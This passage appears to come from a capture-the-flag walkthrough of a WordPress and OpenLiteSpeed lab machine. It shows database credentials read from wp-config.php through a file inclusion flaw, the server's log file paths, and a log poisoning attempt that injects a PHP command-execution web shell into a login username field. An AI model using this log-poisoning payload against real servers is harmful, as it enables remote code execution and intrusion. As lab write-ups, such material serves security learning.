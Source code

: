 After investigating ```/blog/wp-config.php```, I found the database credentials ```wordpressuser:7qV2@V$j5A4$bS42wy```. I saved these for later.

```
/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

/** MySQL database password */
define( 'DB_PASSWORD', '7qV2@V$j5A4$bS42wy' );
```

There was another directory on port 8088 called ```/protected/``` which was password-protected with HTTP Basic Authentication. However, the credentials didn't work here. This directory becomes important later though.

Lastly, I investigated the web server on port 7080 and found a WebAdmin login for OoenLiteSpeed.

![image](https://user-images.githubusercontent.com/45502375/197644049-66e3c936-8f57-4cc1-b94b-779a10fdd867.png)

I tried the credentials I found earlier here too, to no avail.

Then I tried a different approach.

## Step 4 - Exploitation Part 2

Since I had access to a LFI vulnerability, I could look at config files and log files as well.

If I was attempting to authenticate to different services, odds are that those login attempts were being logged somewhere.

After much trial and error, I discovered the access logging and error logging files for OpenLiteSpeed at ```/usr/local/lsws/logs/access.log``` ```/usr/local/lsws/logs/error.log``` respectively.

Investigating the access logs didn't show much interesting information. However, the error logs showed much more information, including the recorded usernames used to authenticate into different services.

```
...
2022-10-24 16:47:12.189900 [INFO] [192.168.159.128:44938-924#Example] User 'cxsdk' failed to authenticate.
2022-10-24 16:47:12.194156 [INFO] [192.168.159.128:44938-925#Example] User 'root' failed to authenticate.
2022-10-24 16:47:12.197011 [INFO] [192.168.159.128:44938-926#Example] User 'ADMIN' failed to authenticate.
...
```

I attempted a log poisoning attack where I injected PHP command execution in the username field. I tried this on both the OpenLiteSpeed WebAdmin login page and the HTTP Basic Authentication page and checked the logs.

```
2022-10-24 17:26:21.836007 [NOTICE] [192.168.159.128:38654:HTTP2-15#_AdminVHost] [STDERR] [WebAdmin Console] Failed Login Attempt - username:\<\?php system\(\$_GET\["cmd"\]\)\; \?\> ip:192.168.159.128 url:
...
2022-10-24 17:29:06.227908 [INFO] [192.168.159.128:55350#Example] User '' failed to authenticate.
```
